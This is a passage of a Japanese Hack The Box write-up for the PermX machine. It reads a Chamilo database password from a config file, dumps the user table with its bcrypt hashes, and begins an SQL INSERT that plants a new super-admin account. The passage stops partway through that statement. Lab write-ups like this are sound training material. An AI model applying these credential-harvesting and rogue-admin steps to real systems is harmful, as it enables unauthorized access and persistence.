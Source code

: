 ```bash
 * (table settings_current).
 */

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;

/**
 * Directory settings.
 */
// URL to the root of your Chamilo installation, e.g.: http://www.mychamilo.com/
$_configuration['root_web'] = 'http://lms.permx.htb/';
// Path to the webroot of system, example: /var/www/
```

データベースにアクセスする。
```bash
$ mysql -h localhost -P 3306 -u chamilo -p chamilo
Enter password: 03F6lY3uXAP2bkW8

MariaDB [chamilo]> USE chamilo;
MariaDB [chamilo]> SELECT * FROM user LIMIT 10;
+----+----------+-----------------------+--------+--------------------------------------------------------------+
| id | username | email                 | status | password                                                     |
+----+----------+-----------------------+--------+--------------------------------------------------------------+
|  1 | admin    | admin@permx.htb       |      1 | $2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra |
|  2 | anon     | anonymous@example.com |      6 | $2y$04$wyjp2UVTeiD/jF4OdoYDquf4e7OWi6a3sohKRDe80IHAyihX0ujdS |
+----+----------+-----------------------+--------+--------------------------------------------------------------+

```



adminのアカウントのパスワードを書き換えることにする。
まず、何でハッシュ化されているのかわからないので、[https://www.tunnelsup.com/hash-analyzer/]で8種の種類を調べる。
bcryptだったので、[https://bcrypt-generator.com/]でbcryptしたハッシュを使うことにする
![](https://raw.githubusercontent.com/crum7/Obsidian/main/HackTheBox_Writeups/Retired/Easy/PermX/images/Pasted%20image%2020250103150646.png)

ユーザー名/パスワードで新しい、adminアカウントを作る。
newadmin/password

```bash
INSERT INTO user (username, username_canonical, email, email_canonical, password, salt, roles, status, registration_date, active, locked, enabled, expired, credentials_expired)
VALUES (
    'newadmin', 
    'newadmin', 
    'newadmin@example.com', 
    'newadmin@example.com', 
    '$2a$12$R1JrMN6jvOxR6ezlMjS3QOHMLSz82PV3AhJqLfGL1/t2n5KeqlYv2', 
    '', 
    'a:1:{i:0;s:16:"ROLE_SUPER_ADMIN";}', 
    1, 
    NOW(), 
    1,
```